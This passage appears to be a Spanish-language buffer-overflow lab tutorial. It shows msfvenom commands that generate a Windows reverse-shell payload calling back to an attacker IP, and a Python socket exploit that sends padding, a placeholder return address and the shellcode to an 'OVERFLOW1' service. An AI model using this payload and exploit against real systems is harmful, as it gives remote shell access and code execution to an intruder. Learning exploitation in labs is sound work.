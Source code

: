 # Msfvenom

Ahora debemos generar las instrucciones maliciosas que queremos que se ejecuten, para eso vamos a generarnos una reverse shell haciendo uso de msfvenom.

```msfvenom -p windows/shell_reverse_tcp LHOST=<Nuestra IP> LPORT=<Puerto> EXITFUNC=thread -b "<BADCHARS>" -f c```

El comando final quedaría así (en mi caso)

```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.29 LPORT=443 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c```

<img src="msfvenom.png">

```py
#!/usr/bin/python3 

from pwn import *

if len(sys.argv) < 2:
    print("\n[!] Uso: python3 %s <IP>\n" % sys.argv[0])
    sys.exit(1)

# Variables globales
ipAddress = sys.argv[1]
rport = 1337
timeout = 5
prefijo = "OVERFLOW1 " # <- campo a inyectar 

shellcode=("\xdb\xc0\xb8\x6c\x90\x63\xb6\xd9\x74\x24\xf4\x5a\x33\xc9"
"\xb1\x52\x31\x42\x17\x03\x42\x17\x83\xae\x94\x81\x43\xd2"
"\x7d\xc7\xac\x2a\x7e\xa8\x25\xcf\x4f\xe8\x52\x84\xe0\xd8"
"\x11\xc8\x0c\x92\x74\xf8\x87\xd6\x50\x0f\x2f\x5c\x87\x3e"
"\xb0\xcd\xfb\x21\x32\x0c\x28\x81\x0b\xdf\x3d\xc0\x4c\x02"
"\xcf\x90\x05\x48\x62\x04\x21\x04\xbf\xaf\x79\x88\xc7\x4c"
"\xc9\xab\xe6\xc3\x41\xf2\x28\xe2\x86\x8e\x60\xfc\xcb\xab"
"\x3b\x77\x3f\x47\xba\x51\x71\xa8\x11\x9c\xbd\x5b\x6b\xd9"
"\x7a\x84\x1e\x13\x79\x39\x19\xe0\x03\xe5\xac\xf2\xa4\x6e"
"\x16\xde\x55\xa2\xc1\x95\x5a\x0f\x85\xf1\x7e\x8e\x4a\x8a"
"\x7b\x1b\x6d\x5c\x0a\x5f\x4a\x78\x56\x3b\xf3\xd9\x32\xea"
"\x0c\x39\x9d\x53\xa9\x32\x30\x87\xc0\x19\x5d\x64\xe9\xa1"
"\x9d\xe2\x7a\xd2\xaf\xad\xd0\x7c\x9c\x26\xff\x7b\xe3\x1c"
"\x47\x13\x1a\x9f\xb8\x3a\xd9\xcb\xe8\x54\xc8\x73\x63\xa4"
"\xf5\xa1\x24\xf4\x59\x1a\x85\xa4\x19\xca\x6d\xae\x95\x35"
"\x8d\xd1\x7f\x5e\x24\x28\xe8\xa1\x11\x33\xf5\x49\x60\x33"
"\x04\x31\xed\xd5\x6c\x55\xb8\x4e\x19\xcc\xe1\x04\xb8\x11"
"\x3c\x61\xfa\x9a\xb3\x96\xb5\x6a\xb9\x84\x22\x9b\xf4\xf6"
"\xe5\xa4\x22\x9e\x6a\x36\xa9\x5e\xe4\x2b\x66\x09\xa1\x9a"
"\x7f\xdf\x5f\x84\x29\xfd\x9d\x50\x11\x45\x7a\xa1\x9c\x44"
"\x0f\x9d\xba\x56\xc9\x1e\x87\x02\x85\x48\x51\xfc\x63\x23"
"\x13\x56\x3a\x98\xfd\x3e\xbb\xd2\x3d\x38\xc4\x3e\xc8\xa4"
"\x75\x97\x8d\xdb\xba\x7f\x1a\xa4\xa6\x1f\xe5\x7f\x63\x3f"
"\x04\x55\x9e\xa8\x91\x3c\x23\xb5\x21\xeb\x60\xc0\xa1\x19"
"\x19\x37\xb9\x68\x1c\x73\x7d\x81\x6c\xec\xe8\xa5\xc3\x0d"
"\x39")
if __name__ == "__main__":
    buffer = "A"*1978 + "B"*4 + shellcode
    try:      
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        s.connect((ipAddress, rport))
        data = s.recv(1024)
        payload = (prefijo + buffer)
        s.send(payload.encode("latin-1"))
```
